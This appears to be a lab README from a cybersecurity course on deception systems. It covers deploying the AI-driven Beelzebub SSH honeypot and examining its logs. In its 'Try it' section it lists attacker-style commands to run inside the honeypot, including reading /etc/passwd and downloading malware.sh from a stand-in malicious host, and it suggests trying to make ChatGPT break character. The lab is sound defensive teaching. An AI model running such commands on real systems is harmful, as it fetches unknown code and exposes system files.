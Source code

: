 Beelzebub is an advanced honeypot framework designed to provide a highly secure environment for detecting and analyzing cyber attacks. It offers a low code approach for easy implementation and uses AI to mimic the behavior of a high-interaction honeypot

>[!IMPORTANT]
>
>You can find the original GitHub of at [Beelzebub Repo](https://github.com/mariocandela/beelzebub)

# Setup
Participants will deploy and monitor an AI-powered SSH honeypot (Beelzebub) to detect and analyze attacker behavior in real time

```bash
sudo su -
```
```bash
apt update && apt upgrade -y
```
```bash
systemctl enable --now docker
```
```bash
cd /opt
```
```bash
git clone https://github.com/mariocandela/beelzebub.git
```

### Get the ChatGPT Api Key
- Go to [ChatGPT](https://chatgpt.com/) and create an account if you don’t have one
- Make sure you have credits or a payment method at [Billing Setting](https://platform.openai.com/settings/organization/billing/overview)
- Go to [API Keys](https://platform.openai.com/api-keys) and create a new key
- Save this key as you will only see it once!

### Deployment
- Make sure you are into **/opt/beelzebub/**

```bash
nano docker-compose.yml
```
 - Put your key here
<img width="295" height="53" alt="image" src="https://github.com/user-attachments/assets/eca9345f-c69c-45f2-8a00-5cf389e42b3b" />


- Also comment the **Default SSH Mapping**(ssh 22 port)
<img width="176" height="81" alt="image" src="https://github.com/user-attachments/assets/f02190d4-36ec-4638-8817-aae8a33ece43" />

```bash
cd configurations/services/
```
```bash
mv ./ssh-22.yaml ~
```
```bash
nano ./ssh-2222.yaml
```
 - Add your key with double quotes around it like `OPENAI_API_KEY: "your_api_key_here"`
```bash
cd /opt/beelzebub/
```
```bash
docker-compose build
```
```bash
docker-compose up -d
```

# Try it
Connect to it like this:

```bash
ssh -p 2222 root@127.0.0.1
``` 
- use password "**1234**"
- Try using any commands like **ls** or **id**
<img width="659" height="126" alt="image" src="https://github.com/user-attachments/assets/914c1f89-c3d0-412d-bae6-7b9fcee70d9e" />

Everything you see is AI generated, and that's what an attacker would see

Cool, right?

- Try running suspicious commands an attacker would use
```bash
uname -a
```
```bash
cat /etc/passwd
```
```bash
wget http://malicious.example/malware.sh
```
```bash
id
```
Now exit the session to export the logs

```bash
cd /opt/beelzebub/
```
```bash
docker-compose logs -f
```
```bash
docker-compose logs > honeypot.log
```

Take your time into analyzing the logs and seeing how they are being built

>[!TIP]
>
>Try to make ChatGPT break character, this method, like anything else in cybersecurity isn't flawless, but it surely tricks hackers and does its job, **to increase Attack Time**

---
[Back to the Section](/courseFiles/Section_07-deceptionSystems/deceptionSystems.md)




